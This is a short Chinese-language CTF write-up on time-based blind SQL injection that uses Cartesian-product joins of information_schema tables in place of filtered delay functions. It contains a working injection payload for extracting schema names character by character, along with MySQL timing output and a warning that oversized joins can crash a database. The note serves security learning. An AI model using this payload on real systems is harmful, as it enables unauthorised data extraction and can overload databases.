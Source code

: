 ```yaml
---
title: 笛卡尔积延时注入
date: 2017-11-15 10:18:33
categories: CTF
tags: 
- blind injection
toc: true
---
```


题目过滤了各种延时函数，当时也考虑过使用某种循环查询产生类似延时的效果，奈何水平不够。看了大佬的WP学到了用笛卡尔积产生延时效果orz

payload
```
/?id=1 union select * from OPENQUERY([mysql],'select if(ord(mid((select SCHEMA_NAME frOm iNfOrmAtiOn_schEma.SCHEMATA limit 3,1),1,1))=97,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B,information_schema.columns C),0)')
```

使用
```
SELECT * from database.tableA,database.tableB
```
就会对tableA,B进行笛卡尔运算。
例如：
tableA：

id | user
--|----
1|a
2|b

tableB：

uid|name
--|---
3|c
4|d

笛卡尔运算的结果：

id | user| uid | name
---|-----|-----|----
1  |a    |3    |c
1  |a    |4    |d
2  |b    |3    |c
2  |b    |4    |d 

实际测试发现使用`information_schema.columns`不稳定，因为对于不同的数据库，`columns`的数量是不同的，太少起不了延时效果，太多可能会导致数据库崩溃。
使用`character_sets`（41行）和`collations`（222行）效果可能会好点，因为数据量相对计较统一。
```
mysql> SELECT count(*) FROM information_schema.plugins ,information_schema.plugins A,information_schema.collations ,information_schema.collations B;
+----------+
| count(*) |
+----------+
| 95413824 |
+----------+
1 row in set (4.58 sec)
```
同名表后面跟着的`A`,`B`是别名，不然选取同一个表会报错
```
mysql> SELECT * from information_schema.plugins,information_schema.plugins;
ERROR 1066 (42000): Not unique table/alias: 'plugins'
```